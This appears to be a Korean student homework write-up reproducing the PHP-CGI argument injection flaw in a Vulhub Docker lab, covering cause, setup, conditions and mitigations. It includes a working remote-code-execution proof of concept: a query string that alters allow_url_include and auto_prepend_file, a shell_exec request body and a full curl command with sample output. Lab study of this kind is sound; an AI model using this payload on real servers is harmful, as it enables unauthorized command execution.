


# kr-vulhub_homework
contributors

- 심민경

## 취약점 요약

- PHP가 CGI 모드로 동작할 때 발생하는 인자삽입 취약점으로, 공격자가 원격에서 PHP 실행 옵션을 조작해 임의 코드 실행까지 이어질 수 있는 취약점
- 동작원리
    - 사용자 HTTP 요청 → 웹 서버가 php-cgi 실행
    → Query String 전달 → php-cgi가 일부 입력을 명령행 옵션으로 잘못 해석 → 공격자가 PHP 설정 변경 → 악성 PHP 코드 실행 (RCE)
- 원래 URL 뒤의 Query String은 웹 애플리케이션에 전달되는 데이터로 처리되어야 한다. `?id=123`  하지만 취약한 버전의 PHP CGI 환경에서는 공격자가 전달한 문자열 일부가 php-cgi 실행 옵션처럼 처리될 수 있었다.
- 예를 들어 공격자는 PHP 설정값을 바꾸는 옵션을 전달해서
    - 외부 입력을 PHP 코드처럼 포함하도록 설정 변경
    - 요청 본문에 악성 PHP 코드 삽입
    - 서버에서 명령 실행
    
    같은 공격 흐름을 만들 수 있었음 
    
- 핵심 원인은 외부 사용자가 전달한 Query String과 php-cgi 실행 인자를 명확히 분리하지 못한 것

## 취약점 환경 구성

- `docker compose up -d - -build` 를 실행하여 테스트 환경 실행함
- `http://your-ip:8080/`에 접속하여 기본 페이지를 확인합니다.
- 정상적으로 테스트 환경이 구축됐다면, 아래 사진과 같이 페이지에 `Hello, Your name is Vulhub` 

## 취약 조건

- 웹 서버가 **PHP를 CGI 방식(php-cgi)으로 실행하는 환경**이어야 함
- 취약한 버전의 **PHP CGI(패치 이전 버전)**를 사용해야 함
- 외부 사용자가 전달한 **Query String이 php-cgi 실행 옵션으로 해석 가능한 상태**여야 함
- 취약한 환경에서는 URL 뒤의 입력값이 정상적인 데이터가 아니라 `-s`, `-d` 같은 **php-cgi 옵션(argument)**으로 처리될 수 있음.
    - `-s` : PHP 파일을 실행하지 않고 소스코드를 HTML 형식으로 출력하는 옵션
    - `-d` : 실행 시점에 php.ini 설정 값을 임의로 변경하는 옵션
    - `-s` : PHP 파일을 실행하지 않고 소스코드를 출력하는 옵션
    - `-c` : 사용할 php.ini 설정 파일의 경로를 지정하는 옵션
    - `-n` : php.ini 설정 파일을 사용하지 않고 PHP를 실행하는 옵션
- `http://your-ip:8080/index.php?-s`에 엑세스 하면 웹페이지의 소스코드가 노출됩니다. 

## 재현 절차

1. Docker Compose를 이용하여 취약한 PHP CGI 환경을 실행한다. `docker compose up -d`
2. 웹 브라우저에서 테스트 페이지에 접근하여 PHP 서비스가 정상적으로 동작하는지 확인한다. `http://localhost:8080/index.php`
3. php-cgi 옵션 삽입 가능 여부를 확인하기 위해 -s 옵션을 전달한다. 취약한 환경에서는 PHP 코드가 실행되지 않고 소스코드가 그대로 노출된다. `http://localhost:8080/index.php?-s`
4. 이후 php-cgi의 -d 옵션을 이용하여 PHP 설정값을 변경하고, 요청 Body에 포함된 PHP 코드를 실행하도록 한다. 

## PoC 코드

- php-cgi의 설정 변경 옵션인 -d를 이용하여 allow_url_include와 auto_prepend_file 값을 변경한다.
- 요청 URL: /index.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
- Request Body : <?php echo shell_exec("id"); ?>
- allow_url_include 옵션을 활성화하고 auto_prepend_file을 php://input으로 설정하면, 요청 Body의 PHP 코드가 먼저 포함되어 실행된다.
- `curl -i -X POST "http://localhost:8080/index.php?-d+allow_url_include%3D1+-d+auto_prepend_file%3Dphp://input" --data "<?php echo shell_exec('id'); ?>"`

## 실행 결과

- PoC 요청을 전송하면 서버 내부에서 id 명령어가 실행된다.
- 성공하면 이런 결과 : `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
- 이를 통해 외부 입력을 이용해 서버 권한으로 명령 실행이 가능함을 확인하였다.

## 결과 정리

⇒ PoC 실행 결과 php-cgi 옵션 삽입을 통해 PHP 설정값이 변경되었고, 요청 Body에 포함된 PHP 코드가 실행되었다. shell_exec() 함수를 이용한 id 명령 실행 결과 웹 서버 권한(www-data)의 사용자 정보가 출력되어 원격 코드 실행(RCE)이 가능함을 확인하였다.

## 대응 방안

- 취약점이 패치된 PHP 버전으로 업데이트한다.
- php-cgi가 외부 요청을 통해 직접 실행되지 않도록 제한한다.
- CGI 방식 대신 PHP-FPM(FastCGI Process Manager) 사용을 권장한다.
- 웹 서버 설정을 통해 비정상적인 CGI 옵션 전달 요청을 차단한다.
- 불필요한 PHP 옵션 및 위험 함수 사용을 제한한다.
